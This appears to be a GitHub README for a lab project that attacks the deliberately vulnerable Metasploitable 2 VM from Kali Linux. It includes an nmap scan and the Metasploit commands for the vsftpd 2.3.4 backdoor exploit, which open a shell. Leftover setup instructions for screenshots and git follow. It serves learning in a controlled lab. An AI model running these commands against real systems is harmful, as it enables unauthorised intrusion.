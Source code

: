 # Metasploitable 2 Penetration Testing (Cybersecurity Project)

This project is a simple demonstration of penetration testing techniques using the Metasploitable 2 virtual machine and Kali Linux, based on a tutorial by Loi Liang Yang.

## 📌 Project Objective
To simulate a basic cyberattack on a vulnerable system (Metasploitable 2) in a controlled lab environment and learn core ethical hacking techniques.

## 🎯 Tools & Technologies
•⁠  ⁠Kali Linux
•⁠  ⁠Metasploitable 2 VM
•⁠  ⁠Metasploit Framework
•⁠  ⁠Nmap

## 🔧 Methodology

### 1. Reconnaissance
Used ⁠ nmap ⁠ to identify open ports and services:
⁠ bash
nmap -sS -sV 192.168.1.105

2. Exploitation

Used Metasploit to exploit a known vulnerability.

msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.1.105
exploit

3. Post-Exploitation

Accessed the shell and verified successful entry.


⚠️ Disclaimer

This project is for educational purposes only. Always perform penetration testing in a legal and ethical manner with explicit permission.

📄 License

MIT License

---

### 3. **Add Screenshots or Images (Optional)**
- Take screenshots of your terminal or setup
- Save them in a folder (e.g., `/images`)
- Use Markdown to embed them:
 ⁠markdown
![Nmap Scan Result](images/nmap-scan.png)


⸻

4.⁠ ⁠Push Project Files (Optional)

If you have code/scripts or VM configuration files, you can upload them too:

git init
git add .
git commit -m "Initial commit - Metasploitable 2 Project"
git branch -M main
git remote add origin https://github.com/yourusername/metasploitable2-penetration-testing.git
git push -u origin main


